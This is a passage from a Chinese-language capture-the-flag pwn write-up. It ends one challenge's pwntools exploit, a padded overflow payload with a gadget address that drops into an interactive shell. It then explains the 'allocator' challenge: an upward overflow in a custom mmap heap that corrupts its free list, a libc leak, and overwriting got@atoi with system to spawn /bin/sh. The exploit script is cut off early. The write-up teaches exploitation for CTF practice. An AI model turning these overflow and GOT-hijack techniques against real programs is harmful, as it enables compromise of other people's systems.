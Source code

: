 ```
payload2 = 'a' * (0x82E - len(flag_name) - 1) + p32(http_data_addr + 0x1e + rbp_offset) + p32(gadget_addr) + p32(elf.plt['exit'])
payload2 = payload2.ljust(0x5000, '\x00')
sh.send(payload2)
#sh.shutdown_raw('send')
sh.interactive()
```



## allocator

从这题开始的难度就飙升了，这道题的漏洞点也非常值得大家学习~

这道题的大概思路可以学习一下 [津门 AWD hpad](https://www.anquanke.com/post/id/243013) 这道题

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t018e579de9bf972e40.png)

程序使用 C++ 编写，稍微加入了一些加密操作用于考察逆向能力。

[![](https://p2.ssl.qhimg.com/t01af6eed4cac338ce8.png)](https://p2.ssl.qhimg.com/t01af6eed4cac338ce8.png)

题目中使用 mmap 来申请一块空间，并且自行管理，并且在申请堆块的时候没有考虑空间是否会满，存在通过 read 函数传递的参数可能会是无效内存从而造成异常返回 -1。

在 read_content 函数中由于实现问题就会造成无限的向上溢出（和 hpad 那题漏洞一致）

[![](https://p2.ssl.qhimg.com/t018acfacf0a1257055.png)](https://p2.ssl.qhimg.com/t018acfacf0a1257055.png)

通过这个函数向上溢出覆盖到程序的 free 堆块 链上，这样可以两次申请就得到任意地址任意读写权限。（但是需要注意的是程序实现的堆块会对 size 内容进行验证，要求输入的 size 和 伪造指针的 size 位一致才会取出，否则会继续遍历）

由于程序是使用 glibc2.31，所以这道题直接覆盖某个 got 指针为 one_gadget 这样的方法行不通（glibc2.31 的 one_gadget 要求苛刻），所以这里需要考虑劫持 got[@atoi](https://github.com/atoi) 为 system 函数，在下次传参的时候传入/bin/sh 就可以执行 system(‘/bin/sh’)。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019dbd7643b9902cae.png)

这里我本来考虑直接劫持链到 got[@atoi](https://github.com/atoi) 上，结果发现程序至少输入一个字节的内容，这样会覆盖到 got 表上的内容，导致后续调用的时候出错。

并且程序限制功能次数为 10 次，所以无法进行两次利用（第一次泄露 libc，第二次修改 atoi）。

**所以这里最后的利用方法是通过劫持保存堆块指针的那块空间，然后修改堆块指针实现任意读写。**

**读 -&gt; got[@atoi](https://github.com/atoi) 用来泄露 libc，写 -&gt; 修改 got[@atoi](https://github.com/atoi) 为 system 来 getshell。**

**Exp 脚本**

```
from pwn import *
from Crypto.Util.number import *

elf = None
libc = None
file_name = "./allocator"
# context.timeout = 1


def get_file(dic=""):
    context.binary = dic + file_name
    return context.binary


def get_libc(dic=""):
    libc = None
    try:
```